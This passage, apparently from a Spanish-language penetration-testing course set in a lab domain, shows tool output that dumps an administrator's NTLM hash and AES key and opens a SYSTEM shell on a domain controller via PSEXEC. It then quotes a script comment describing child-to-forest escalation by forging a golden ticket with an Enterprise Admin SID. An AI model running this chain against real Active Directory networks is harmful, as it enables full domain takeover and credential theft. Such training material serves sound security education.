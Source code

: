 ```shell-session
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Stopping service UVNb.....
[*] Removing service UVNb.....
[*] Removing file BnEGssCE.exe.....
```

El script enumera el flujo de trabajo y el proceso en un comentario de la siguiente manera:

Código:pitón

```python
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
#           4) Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch).
#              Enterprise Admin by default.
#
#       Process:
#           1) Find out where the child domain controller is located and get its info (via [MS-NRPC])
#           2) Find out what the forest FQDN is (via [MS-NRPC])
#           3) Get the forest's Enterprise Admin SID (via [MS-LSAT])
#           4) Get the child domain's krbtgt credentials (via [MS-DRSR])
#           5) Create a Golden Ticket specifying SID from 3) inside the KERB_VALIDATION_INFO's ExtraSids array
#              and setting expiration 10 years from now
#           6) Use the generated ticket to log into the forest and get the target user info (krbtgt/admin by default)
#           7) If file was specified, save the golden ticket in ccache format
#           8) If target was specified, a PSEXEC shell is launched
#
#       Output:
#           1) Target user credentials (Forest's krbtgt/admin credentials by default)
#           2) A golden ticket saved in ccache for future fun and profit
#           3) PSExec Shell with the target-user privileges (Enterprise Admin privileges by default) at target-exec
#              parameter.
```